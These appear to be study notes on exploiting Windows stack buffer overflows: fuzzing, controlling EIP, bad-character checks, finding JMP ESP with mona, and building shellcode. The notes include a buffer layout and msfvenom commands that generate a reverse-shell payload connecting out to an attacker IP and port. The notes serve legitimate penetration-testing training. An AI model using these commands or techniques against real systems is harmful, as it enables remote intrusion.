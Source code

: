 Main ways of identifying flaws in applications:

1. If source code is available , then source code review 
2. If application is close sourced, then reverse engineering
3. Fuzzing to find bugs

**Fuzzing :**

Fuzzing involves sending malformed data into application input and watching for  
 unexpected crashes.

An unexpected crash indicates that the application might not filter certain input correctly. This could lead to discovering an exploitable vulnerability

buffer = A\*2606 + &lt;Bufffer Overflow / EIP Address&gt; + shell code + "C" \* \(3500 -2606 -4 -351\)

**Steps:**

1. **Fuzzing and crash replication**
   1. Create a fuzzing script and find the exact location whr the crash occurs.\(Attach process 2 debugger & enable the putty\)
   2. Once debugger is attached pauses the process , press the play button to allow debugger to release the process and run normally
   3. run the fuzzer prog , at one point debugger pauses and allow use to analyze
   4. F2 to set the breakpoint
   5. Recreate the crash with the modified script and run it
   6. find the register values \( ESP and EIP\) after the pause of debugger
2. **Controlling the EIP** \(controls execution flow of the prog\)
   1. Locate the EIP position in our buffer
   2. Ruby Pattern creator tool - to create the unique buffer strings
   3. we could figure out unique four bytes in our buffer
   4. pattern-offset : gives position of the four unique bytes
   5. Now we replace the value with the user controlled bytes 
   6. Control the execution flow of the application , by changing the specific \(EIP\) Bytes
3. **ShellCode **\(User entered code\)
   1. once the shellcode is in memory we can redirect the execution of the application to this shell code
   2. we need to increase the size of the buffer in order to accommodate the shellcode \(3500\)
   3. ESP would be the best address to insert the shellcode , as it is easy to access the address
   4. Shellcode payload generator : 
4. **Bad Character**

   1. certain character are considered bad , should not be used in the buffer , return address, shellcode  ex: NOP, \r etc

   2. add all combinations of HEX character combinations to buffer

   3. Buffer = A + B + bad characters

   4. run and check whether any issue wt

5. **Redirecting Execution flow** :

   1. we found the location for our shellcode in the memory location tht is easily accessible by ESP Register

   2. we Control the EIP Register

   3. We figured wht characters are allowed in the buffer

   4. Now to redirect the execution to shellcode at the time of the crash

   5. to get tht we need to get the address of the ESP instead of B's to EIP.

   6. We need to find more generic way to find the ESP Address at the time of crash

   7. Application at run time loads certain libraries , dlls , drivers etc we can look at those to find instruction like \( Jmp ESP \)

6. **Mona \( third party debugger \)**

   1. !mona modules

   2. choose module : no Memory protection \(DEP, ASLR\) , no bad characters

   3. nasm\_shell script -- prints the opcode of any instruction

   4. mona module can search for any opcode in given memory range

   5. !mona find -s "\xff\xe4" -m slmfc.dll   --- &gt; given address has this instruction

   6. now we can use this address to make EIP point to ESP at runtime

   7. modify in skeleton exploit , replace B's with the obtained address and set the breakpoint \(F2\) in debugger also run regular by F7

7. **Shellcode payload generator**

   1. msfvenom -p windows/shell_reverse\_tcp LHOST=10.11.0.196 LPORT=443 -f c -a x86 --platform windows _
   2. lot of bad characters in the shellcode so we need to encode.
   3. add the bad character list to no allow 
   4. msfvenom -p windows/shell_reverse_\_tcp  LHOST=10.11.0.196 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d"  -e x86/shikata ga nai 
   5. bad character not sent over the wire 



